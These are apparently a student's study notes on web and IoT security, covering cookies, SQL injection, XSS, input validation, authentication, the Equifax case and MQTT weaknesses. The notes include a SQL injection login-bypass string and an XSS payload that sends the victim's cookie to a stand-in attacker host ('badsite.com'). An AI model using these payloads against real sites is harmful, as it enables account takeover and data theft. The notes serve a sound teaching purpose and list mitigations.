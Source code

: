 # Web and IoT Security

## Security in the web

### Basics of a Web Application

A web application is made on the client/server model: they send each other messages in a *request-response messaging pattern*. We remember that all client-server protocol operate in the *Application Layer*.

**HTTP** stands for Hyper Text Transfer Protocol and it is a *stateless, application-level protocol* for exchanging information between systems. It is connectionless, media independent and stateless.

```http
HTTP/1.0 200 OK
Date: Sun, 21 Apr 1996 02:20:42 GMT
Server: Google
Connection: keep-alive
Content-Type: text/html
Set-Cookie: ...
Content-Length: 2543
<html>...</html>
```

*Up here you can see HTTP version, status code, headers, cookies and the body*

We can add a **state** to HTTP thanks to **Cookies**: cookies are small piece of data sent together with the request to remember information (ie. a shopping cart) or record user's browser activity. 

Cookies are usually used for **authentication** to know whether the user is logged in or not. However security vulnerabilities might allow cookies' data to be read by a hacker wich than can gain access to user data or the website. They also are a **privacy concern** because of tracking cookies.

Because cookies are exchanged in clear you should use https.

### Secure a Web Application

Creating a secure Web application is not an easy task because many security flaws can happen at many levels (db, server, app, network). Every layer must be examined.

Example of vulnerabilities are:

- Application layer
  
  - SQL Injection
  
  - Cross-Site-Scripting (XSS)
  
  - CSFR, Broken Auth, Unvalidated Input

- Server Layer
  
  - DoS
  
  - OS Exploitation

- Network Layer
  
  - MITM
  
  - DNS Attack
  
  - Packet-Sniffing

- User Layer
  
  - Phishing
  
  - Key Logging
  
  - Malware

A web application should be able to grant: **Authentication, Authorization, Confidentiality, Integrity, Non-Repudiation**.

Goals of **Web Application Security** (a branch of Information Security) is to secure web and mobile apps and safe browsing the web

### SQL Injection

A SQL injection is  a code injection technique used to attack data-drive applications. It consist in inserting into a non-sanitized field SQL statements which will be executed.

```sql
SELECT * FROM Users
WHERE username = 'admin';-- AND password = 'pass123'
```

*In the example above the input field is ``'admin';--`` and the password requirement in the SQL query is ignored as a comment returning the view of an admin*.

Other types of SQL injection use wildcards, `... OR 1=1` always true statements. Basically a SQL injection is present when **dynamic queries** are built.

> Case Study: CardSystem (in June 2005) was a credit card payment processing company. A SQL injection exposed 43M credit cards.

**Mitigations:**

- Input sanitization

- Principle of The Least Privilege

### Cross-Site Scripting Attacks (XSS)

Cross-site scripting (XSS) is a security vulnerability were attackers are able to inject client-side scripts into a user visited website. 

```html
http://vulnerable.com/welcome.php?name=
<script>
window.open ("http://badsite.com/collect.php?cookie= "+document.cookie)
</script>
```

*The idea is to forward the cookie of the user to the attacker site so that it can exploit it (reflected attack)*

Another way of doing XSS is through forms, loading malicious code on the server and (*stored attack*).

With XSS the hacker can impersonate the victim.

**Mitigations:** 

- Filter input parameters (better to use positive filtering)

### Other Attacks

**Unvalidated Input**

```html
<form action="page.asp" method="post">
    <input type="hidden" name="price" value="20.00">
    <input type="submit">
</form>
```

*A user could easily change the value client side and than send the request*

Always validate **server side**!

**Broken Authentication**

Common combination of usernames and passwords are broken.

Causes may be insecure storage, weak algorithm, faulty session management or passwords recovery.

Mitigations are to disallow weak passwords, use HTTPS and MFA, salt and has passwords

**Session Management**

Session information is equally important to protect. Poor management can leed to CSFR (Cross-Site Request Forgery), spoofing and more. 

MItigation consist in implementing strict timeouts and ensure unique and renewed Session IDs.

### Access Control in Web Application

> Case Study: The Equifax Breach
> 
> It was a **command injection attack** where hackers could execute arbitrary commands in Apache Struts. Patches were available **but not applied**.

*Security best practices dictate that this user have as little privilege as possible 
on the server itself, since security vulnerabilities in web applications and web 
servers are so commonly exploited.*

### Conclusion

It is a good idea to use automated solutions for analysis and enforcement of security policies (ie. tools, firewalls, Cloudflare).

**The OWASP Top 10** 

[OWASP Top 10:2021](https://owasp.org/Top10/)

![](/home/samu/Documents/Markdown/images/ComputerAndNetworkSecurity/OWASP.png)

## IoT Security

### Basics of IoT Applications

They usually use a **publish-subscribe** communication. It is a many-to-many communication model. Parties doesn't need to know each other and act at the same time. Synchronization is not needed.

![](/home/samu/.config/marktext/images/2022-12-13-23-59-23-image.png)

*Subjects are publishers, subscribers, a broker and a Notification service*

A more advanced model uses **topics** so that subscribers listen to "categories". Topics can be organized by **hierarchy**.

The **Event Notification System** can be centralized or distributed.

### MQTT

MQTT stands for Message Queue Telemetry Transport. It follows the publisher/subscriber pattern, has hierarchy, simple packets and runs over TCP (*not encrypted by default*)

It is designed to minimise network bandwith, run on small resources and be sort of reliable.

By default all data are in clear; however encryption is possible using **TLS**. The side effect is a significant network overhead. Additional security measures can added.

**Authentication** is possible through the `CONNECT` packet.

Security flaws rounds down to:

- Brute-force Attacks (no limit on number of attempts)

- Abuse of Wildcards in topic subscriptions (possibly system packets)
